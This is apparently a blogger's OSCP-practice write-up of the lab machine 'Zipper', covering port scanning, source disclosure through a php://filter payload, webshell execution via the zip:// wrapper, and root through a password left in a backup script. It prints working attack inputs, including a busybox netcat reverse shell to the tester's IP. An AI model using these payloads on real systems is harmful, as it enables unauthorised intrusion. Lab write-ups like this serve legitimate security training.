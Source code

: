```yaml
---
layout: /src/layouts/PostLayout.astro
title: Zipper
tags: ["zip", "php_wrapper", "SourceCodeDisclosure", "enumeration"]
---
```

**Start 12:14 06-05-2025**

---
```
Scope:
192.168.145.229
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV zipper -sT -T5 --min-rate=5000 -Pn -vvvv -p-

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Zipper
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80/TCP - HTTP

![](../../../assets/062fde56a96d71ab005bd37cbaa78b63.png)

I tried to upload a webshell and see what happens:

![](../../../assets/c9f0af77b0750402d219bdb338e007d8.png)

![](../../../assets/c5b3459f551746bae25bc40374c55711.png)

Let's boot up `burp` to see what's happening underneath.

![](../../../assets/543243ed1b7df28b06b4ca3b36d75187.png)

I don't see anything unusual happening to my request, however I notice the `/index.php?file=` parameter and instantly think to test it.

### Source Code Disclosure

I go on and start testing it:

```
php://filter/read=convert.base64-encode/resource=config
```

![](../../../assets/fd069793308ff174b009cae7313bcaf7.png)

![](../../../assets/ca974dc48b9ae974d7b057a33b91aba1.png)

We get a new endpoint called `/home.php`, let's check it's source code:

![](../../../assets/19a40b29a09f11d353c9b2f84149084f.png)

This gave a massive output, however the relevant part is found below:

![](../../../assets/0756549fe9cbe68a8e4ed957bbee86c6.png)

Judging from this script I deducted that the function would naturally be called `upload.php`:

![](../../../assets/b20dc2bb33b400faa6190aba03e8377f.png)

:::success
Not gonna lie, I was pleasantly surprised
:::

![](../../../assets/f003d8110bbfa15d3c6f14f1d8f568c8.png)

:::note
So this points to a Zip Upload vulnerability. We can HIGHLY LIKELY exploit this using hte `zip://` PHP wrapper.
:::

Since we know the path of the upload, and we've verified the zip file name (because we downloaded it) we can now put together the URL to get to our webshell:

```
http://zipper/index.php?file=zip://uploads/upload_1746527079.zip%23webshell
```

![](../../../assets/f852fa61731aba42813f1da8e4abd4be.png)

Hell yeah!

## Foothold
### Shell as www-data

From here I booted up `penelope.py` (I am really trying to familiarize myself with it) and used my favourite linux reverse shell:

```shell
busybox nc 192.168.45.183 443 -e bash
```

![](../../../assets/c91c8253d0bfd81297dbaead32e031e6.png)

And we got access!! EZ PZ

![](../../../assets/0e6dadaae6b20be85a87bf0222e8d9ef.png)

It appears there's no users here.

![](../../../assets/fd35c1cd95d5ffb454480d2245879c63.png)

`/etc/passwd` confirms this, so no `local.txt`?

![](../../../assets/e37ce397061c46729987fb93c2dcec31.png)

Sneaky bastards.

### local.txt

![](../../../assets/867a3d8413b06ceec492723ac004780e.png)

## Privilege Escalation
### Sometimes it's right in front of you

As always I start from `/` with my manual enum. I quickly find a `backup.sh` file owned by *root*:

![](../../../assets/7c7fc5aabf49f2a378a1c200f0bf1259.png)

![](../../../assets/b1231a3fef3bd9c3b1c304080c217aee.png)

![](../../../assets/71621ec7ff9bf57c9eaf4cb7af018d65.png)

I then started checking how to exploit this but one thing really stuck with me, the bottom part literally mentioned:

```
WildCardsGoingWild
```

What could this mean? Could this be the password to *root*?

![](../../../assets/cd3bf4c732acdaf7989f804deed5985f.png)

Lol, sure is.

### proof.txt

![](../../../assets/41e6961d842c95c39586c6fdd754d200.png)

---

**Finished 13:14 06-05-2025**

[^Links]: [[OSCP Prep]]
